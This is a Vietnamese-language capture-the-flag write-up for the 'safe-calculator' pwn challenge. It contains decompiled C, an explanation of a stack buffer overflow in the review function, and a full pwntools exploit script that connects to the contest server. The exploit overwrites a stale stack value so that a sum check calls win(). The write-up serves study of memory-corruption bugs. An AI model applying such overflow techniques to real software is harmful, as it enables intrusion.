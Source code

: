 # safe-calculator

## Code

```c
unsigned __int64 calculate()
{
  __int64 v1; // [rsp+0h] [rbp-20h] BYREF
  __int64 v2; // [rsp+8h] [rbp-18h] BYREF
  __int64 v3; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  __isoc99_sscanf(sum, "{ arg1: %d, arg2: %d}", &v1, &v2);
  v3 = v1 + v2;
  printf("The result of the sum is: %d, it's over 9000!\n", v1 + v2);
  if ( v3 == 0xB98C5F3700002329LL )
  {
    puts("That is over 9000 indeed, how did you do that?");
    win();
  }
  return v4 - __readfsqword(0x28u);
}
unsigned __int64 leave_review()
{
  char v1[56]; // [rsp+0h] [rbp-40h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Enjoyed our calculator? Leave a review! : ");
  __isoc99_scanf("%48[ -~]", v1);
  return v2 - __readfsqword(0x28u);
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("1. Use the safe calculator");
  puts("2. Review the safe calculator");
  while ( 1 )
  {
    while ( 1 )
    {
      printf("> ");
      __isoc99_scanf("%d", &v4);
      getchar();
      result = v4;
      if ( v4 != 1 )
        break;
      calculate();
    }
    if ( v4 != 2 )
      break;
    leave_review();
  }
  return result;
}
```

## Phân tích

- Chương trình có bof ở chỗ `leave_review`, để thay đổi 4 byte và các byte được nhâp ở `leave_review` từ 0x20-0x7e
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/fc4230a0-dd7e-4506-9d50-3dc629975abc)
- Phần khó nhất là ở 2 byte `5F37` mình suy nghĩ khá lâu, thì mình nhớ rằng scanf luôn có null byte khi kết thúc chuỗi nhập vào. Do đó mình sẽ tận dụng việc đó để ow 7fff thành 0000

## Khai thác

```python
part1 = p8(0x37) + p8(0x5F) + p8(0x46) + p8(0x5c)
part2 = p8(0x46) + p8(0x5d)
sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*6 + part2)
sla(b'> ', b'1')
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/c79d7fe5-b7e5-49f1-a6ed-3f323ea6cab2)

```python
sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*5)
sla(b'> ', b'1')
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/fcdc1d78-4cee-4513-852f-990481036007)

```python
sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*4)
sla(b'> ', b'1')
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/bce93c93-d5c9-40aa-b0dc-446ea21ff3bd)

## Script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('safe-calculator', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''

                b*calculate+66
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('2023.ductf.dev', 30015)
else:
        p = process(exe.path)

GDB()
part1 = p8(0x37) + p8(0x5F) + p8(0x46) + p8(0x5c)
part2 = p8(0x46) + p8(0x5d)
sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*6 + part2) 
sla(b'> ', b'1')

sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*5) 
sla(b'> ', b'1')

sla(b'> ', b'2')
sla(b' : ', b'a'*8*4 + b'a'*4 + part1 + b'a'*4) 
sla(b'> ', b'1')
p.interactive()
```